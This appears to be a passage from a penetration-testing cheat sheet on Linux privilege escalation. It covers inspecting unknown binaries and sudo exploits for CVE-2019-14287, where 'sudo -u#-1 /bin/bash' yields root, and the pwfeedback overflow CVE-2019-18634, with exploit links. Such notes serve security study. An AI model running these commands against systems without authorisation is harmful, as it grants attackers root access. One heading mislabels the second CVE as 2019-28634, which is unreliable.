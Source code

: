 3. Unknown Binary
	- Check Online for Exploits
	- Check online for RCE
	- Check Help command or man to see if you can run code
	- `strings binary` and `strings -e binary`
	- `strace binary`
	- Run the Binary to see if it takes arguments for BOF (GDB installed on machine?)

#### Version/CVEs

- Search sudo version online

**CVE-2019-14287**

Requirements:

- Sudo <1.8.28
- (ALL, !root) /bin/bash or other commands

[https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

Sudo doesn't check for the existence of the specified user id and executes the binary with arbitrary user id with the sudo priv -u#-1 returns as 0 which is root's id.

Check for the user sudo permissions.

```
sudo -l
```

User hacker may run the following commands on kali: (ALL, !root) /bin/bash

```
sudo -u#-1 <command>
sudo -u#-1 /bin/bash
```

 **CVE-2019-28634**

[https://github.com/saleemrashid/sudo-cve-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)

Requirements:

In Sudo before 1.8.26, if pwfeedback is enabled in /etc/sudoers, users can trigger a stack-based buffer overflow in the privileged sudo process. (pwfeedback is a default setting in Linux Mint and elementary OS; however, it is NOT the default for upstream and many other packages, and would exist only if enabled by an administrator.) The attacker needs to deliver a long string to the stdin of getln() in tgetpass.c.

- Sudo < 1.8.26
- pwfeedback enabled

`./exploit`

### Groups

#### Sudo/Admin
Method 1
```
sudo su
```
